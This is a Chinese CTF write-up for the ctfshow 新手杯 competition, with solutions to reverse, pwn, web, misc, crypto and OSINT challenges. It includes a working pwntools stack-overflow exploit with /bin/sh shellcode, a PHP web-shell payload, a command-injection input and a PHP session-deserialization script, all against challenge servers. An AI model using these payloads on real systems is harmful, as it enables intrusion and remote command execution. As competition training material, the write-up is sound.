

# ctfshow 新手杯 Frankss WP

# Reverse
## 你newbee吗
IDA直接打开就能看到，strings应该也行

## 色图

只能找到假flag ctfshow{Good_Job_For_First_Step} 非常的迷惑

## Coffee Feast （一血）
用 https://github.com/java-deobfuscator/deobfuscator 的反混淆器可以识别，能修几个常量字符串和函数调用参数，修好之后就可以用recaf逆了  
逆出来的代码改掉关键字（重命名）之后直接就能跑，就不在这贴了。    
（说起来用recaf还是因为T佬用这个A掉了我那个蠢蠢的java红包题）  
jd-gui或者idea自己的反编译器逆不出来大概是因为这个混淆框架把变量和函数名都改成了java关键字。  

NUl那个类有些复杂，但因为`ctfshow`过了NUl之后是个常量，所以运行时跑一遍就行，然后精简掉前后逻辑就只剩下`ctfshow`产生的目标Byte数组和未知的pass输入。

```java
public class Main {
    public static void main(String[] r) {
        int[] bytex = {-887164156, -873878128, 272823518, -596114351, -1222014797, -1602283181, -1940580314, 81795893,
                1126797234, 1740153132, 367300570, 1839793661, -1139744196, 1522283480, -1133228790, -173708126,
                -2081432560, -346049376, 170787789, -1114630331, 1795261979, 196867165, -1642510645, 1467595020,
                1426561156, 1188232822, -1622482685, -977456630, -1254141030, -1777775353, 1214583637, 1743506725,
                -1868755628, 1871311538, -592469535, -1585954051, -1371886685, -979953194, -962378097, -1651683842,
                -477166922, 848942287, 83852063, -419893724};
        int n7 = -367009910;
        int n8 = 1958368624;
        int n9 = -460609373;
        int n10 = 2137305286;
        n9 -= bytex[43];
        n7 -= bytex[42];
        for (int n = 20; n >= 1; --n) {
            int n2 = n10;
            n10 = n9;
            n9 = n8;
            n8 = n7;
            n7 = n2;
            n2 = n10 * (2 * n10 + 1) << 5 | n10 * (2 * n10 + 1) >>> 27;
            int n11 = n8 * (2 * n8 + 1) << 5 | n8 * (2 * n8 + 1) >>> 27;

            n9 = (n9 - bytex[2 * n + 1] >>> n11 | n9 - bytex[2 * n + 1] << 32 - n11) ^ n2;
            n7 = (n7 - bytex[2 * n] >>> n2 | n7 - bytex[2 * n] << 32 - n2) ^ n11;
        }
        n8 -= bytex[0];
        n10 -= bytex[1];
        if  (n7 == 0xb7bd2ec7 && n8 == 0xa21b3d7e && n9 == 0x3245778a && n10 == 0xda2bfa66){
            System.out.println("success");
        }
    }
}
```
所以就是逆上边那个逻辑，n2和n11其实可以直接反推，剩下的简单逆一下循环位移 xor和加减法就可以 完全对称。

```java

        n7 = 0xb7bd2ec7;
        n8 = 0xa21b3d7e;
        n9 = 0x3245778a;
        n10 = 0xda2bfa66;
        n8 += bytex[0];
        n10 += bytex[1];
        for(int n=1;n<21;n++) {
            int n2 = n10 * (2 * n10 + 1) << 5 | n10 * (2 * n10 + 1) >>> 27;
            int n11 = n8 * (2 * n8 + 1) << 5 | n8 * (2 * n8 + 1) >>> 27;
            n9 = ((n9 ^ n2)>>>(32-n11) | (n9 ^ n2)<<n11) + bytex[2 * n + 1];
            n7 = ((n7^n11)>>>(32-n2) | (n7^n11)<<n2) +bytex[2 * n];
            for(int j=0;j<3;j++){
                int t = n10;
                n10 = n9;
                n9 = n8;
                n8 = n7;
                n7 = t;
            }
        }
        n9 += bytex[43];
        n7 += bytex[42];
        System.out.println(Integer.toHexString(n7)+Integer.toHexString(n8)+Integer.toHexString(n9)+Integer.toHexString(n10));
```
跑出来之后序是反着的，转了一下就是flag：
```python
r = "ea1fdf8a74ba5570e48ba8a37f64b0c6"
for i in range(0, 40, 8):
    for j in range(6, -2, -2):
        print(r[i + j:i + j + 2], end="")
```

# PWN
## leave_msg
6退出是后门，`system(echo input())`，直接`1 && cmd`就行了。

## easy_login
登录地方可以泄露canary和栈上一个指向栈上的指针，直接栈溢出ret2shellcode（长度受限好像刚好不能ROP）。
```python
from pwn import *


p = remote("pwn.challenge.ctf.show", 28147)
# p = process("pwn2")
sc = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
sc = sc.ljust(24, b"\x90")
p.sendlineafter(b"name:", b"cat_loves_her")
p.sendlineafter(b"password:  ", sc + b"a")
context.log_level = 'debug'
p.recvuntil(sc + b"a")
canary = b'\x00' + p.recvn(7)
addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(canary)
print(hex(addr))
p.sendlineafter(b"password:  ", sc + canary + b'b' * 8 + p64(addr-48))
#addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
#print(hex(addr))
p.interactive()
```

# WEB （AK）
## easy_eval
`<script language="PHP">system($_GET[id])</script>`

## 剪刀石头布（一血）
清除缓存关了而且序列化配炸了，可以改session文件反序列化。

```python
import requests

sessid = '3fdf87d71c34752abdf204f47249273d'

url = 'http://908d1b93-8d9b-4fbb-8e64-90031da54973.challenge.ctf.show/'

resp = requests.post(url,
                     data={'PHP_SESSION_UPLOAD_PROGRESS': '2|s:1:"2";name|s:1:"1";win|i:100;'},
                     files={'11': '23'},
                     cookies={'PHPSESSID': sessid})

r = requests.get(url, cookies={'PHPSESSID': sessid})
print(r.text)
```

## baby_pickle
第一次访问传name=I1，之后替换把I1改成I0，同时就改了名字和ID。然后id=0就有flag了

## repairman
不知道是不是非预期，那个解析参数的地方可以覆盖config，本地覆盖一个乱七八糟的东西然后就能算出固定的md5了。  
有了admin.【】的md5就有无过滤的exec了，我是反弹了shell解的。

## 简单的数据分析
随机数，精度有限，乘一个足够大的值就没什么差距了
  

# MISC
## 哇库哇库
纯脑洞题，意识流行为  
WAKUwaku密码提示，解出来之后反序hex补PNG头得到图片，宽加0x200得到flag

## 显卡坏了
每隔固定间距插了随机空白色块，写脚本去掉就能完美还原。
```python
from PIL import Image

img = Image.open('e:\\desk\\flag.png')
w = 100
h = 10
COL = 15
image_files = []
for i in range(0, COL*128):
    ww, hh = img.size
    x = w * (i % COL)
    y = h * (i // COL)
    if i not in [COL + j * 16 for j in range(1000)]:
        cutImg = img.crop((x, y, x + w, y + h))
        image_files.append(cutImg)


target = Image.new('RGB', (1500, 1000))
for row in range(100):
    for col in range(COL):
        target.paste(image_files[COL * row + col], (0 + w * col, 0 + h * row))

target.show("1")
```

## 简单密码
伪加密->文件尾发现反序的zip头，提取IEND后部分反序得到zip  
命令行crc爆破头尾发现都有hex的结果，推测避重都是hex，于是爆破
```python
import itertools
import string
import zipfile
import zlib
import base64

name = {"天地玄黄宇宙洪荒"[i]: str(i) for i in range(8)}
cnt = 0

crc_dict = {}
for i in zipfile.ZipFile('e:/desk/2.zip').filelist:
    n = i.filename[:-4]
    cnt+=1
    nme = "".join([name[j] for j in n])
    nme = str(int(nme, 8))
    if i.CRC in crc_dict.keys():
        crc_dict[i.CRC].append(nme)
    else:
        crc_dict[i.CRC] = [nme]

res = ['******' for _ in range(cnt)]

for i in itertools.product("abcdef0123456789", repeat=6):
    crc32 = zlib.crc32(''.join(i).encode())
    if crc32 in crc_dict.keys():
        for n in crc_dict[crc32]:
            res[int(n)] = ''.join(i)
        # print(f"对应 {crc32} 的是: {''.join(i)} ， 当前{''.join(res)} \n")

print(''.join(res))
```
爆破出来的是一堆base，组合用basecrack和cyberchief就能全梭出来，得到狸の祝福

# CRYPTO
## easy_base
反序->base64

## 凯撒密码
按他给的表直接把26值都打一遍就有一个flag了

# OSINT（AK）
## 天上的路
（找到了，但没有完全找到）  
百度 `彩虹路` 热点最高的是那什么一号公路，但怎么提交都不对，后来群里有人说要写详细地点，xxxx站。  
于是百度 `xx一号公路 红房子 "站"` 找到两个驿站，有一个就是了。  

## 都可以黑

电影名怎么找到的来着，搜图中名字可以找到演员，然后就能搜出这部电影，flag第二部分是图片中的名字带下划线（描述啊喂）。

## Demystify Coffee（一血）
用文件尾的仓库 https://github.com/lqs1848/AllatoriCrack  
查官方文档可知 xml在仓库的demo附件里第五章。  
`java -Xms128m -Xmx512m -cp allatori_crack.jar com.allatori.Watermark -extract ExtractWatermark.xml`  
运行就能导出flag  

# WARMUP
## 热身题目
flag在console里